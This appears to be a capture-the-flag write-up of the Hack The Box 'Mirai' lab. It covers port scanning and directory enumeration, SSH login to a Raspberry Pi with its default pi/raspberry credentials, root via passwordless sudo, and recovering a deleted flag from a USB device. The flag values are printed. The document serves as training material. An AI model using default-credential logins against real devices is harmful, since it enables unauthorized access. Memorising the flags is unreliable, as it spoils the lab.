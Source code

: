 # Mirai
>Author : Xyan1d3
>Date : 7th July 2021
>IP : 10.10.10.48
>OS : Linux
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jul  7 11:35:06 2021 as: nmap -sC -sV -v -oN nmap/mirai 10.10.10.48
Nmap scan report for mirai.htb (10.10.10.48)
Host is up (0.079s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-favicon: Unknown favicon MD5: 2CE9555B2C4DF3AA682D512D2FA7C5E2
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35
|_http-title: Website Blocked
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Nmap all ports no scripts
```sql
# Nmap 7.91 scan initiated Wed Jul  7 11:36:01 2021 as: nmap -p- -v -oN nmap/mirai-allports 10.10.10.48
Nmap scan report for mirai.htb (10.10.10.48)
Host is up (0.075s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1513/tcp  open  fujitsu-dtc
32400/tcp open  plex
32469/tcp open  unknown
```

## Nmap all open ports with scripts
```sql
# Nmap 7.91 scan initiated Wed Jul  7 11:45:13 2021 as: nmap -p22,53,80,1513,32400,32469 -v -A -oN nmap/mirai-deepscan 10.10.10.48
Nmap scan report for mirai.htb (10.10.10.48)
Host is up (0.075s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-favicon: Unknown favicon MD5: 2CE9555B2C4DF3AA682D512D2FA7C5E2
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.35
|_http-title: Website Blocked
1513/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   73.00 ms 10.10.14.1
2   74.64 ms mirai.htb (10.10.10.48)

```

## Gobuster on `http://10.10.10.48/admin/`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/mirai]
└──╼ # gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/07 12:04:19 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 13]
```

# Initial FootHold as pi
The box is running Pi-Hole `3.1.4` on `http://10.10.10.48/admin`.
![[Pasted image 20210707213231.png]]

As for most cases the pihole is to be installed on a raspberry pi.
Which has a default credential of `pi` and `raspberry`.

We try those credentials and get logged in to the box.
![[Pasted image 20210707213806.png]]

## Getting user Flag
```python
pi@raspberrypi:~ $ cd Desktop/
pi@raspberrypi:~/Desktop $ ls -l
total 8
drwxr-xr-x 4 pi pi 4096 Aug 13  2017 Plex
-rw-r--r-- 1 pi pi   32 Aug 13  2017 user.txt
pi@raspberrypi:~/Desktop $ cat user.txt; echo
ff837707441b257a20e32199d7c8838d
```

# Root Escalation
We do a `sudo -l` and find out that we have a sudo `nopasswd` on all commands.
```python
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop $ sudo -i

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Getting the root Flag
```python
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```
We could do a `df -h` to check for any usbdrives.
![[Pasted image 20210707222456.png]]

We could use a grep command to recover the file.
![[Pasted image 20210707221808.png]]
![[Pasted image 20210707221825.png]]

```python
root@raspberrypi:/media/usbstick# grep -a -B 25 -A 100 'root.txt' /dev/sdb

*** SNIP ***

(["       1YS1Y
               <Byc[B)>r &<yZ.Gum^>
                                   1Y
|}*,.+-3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```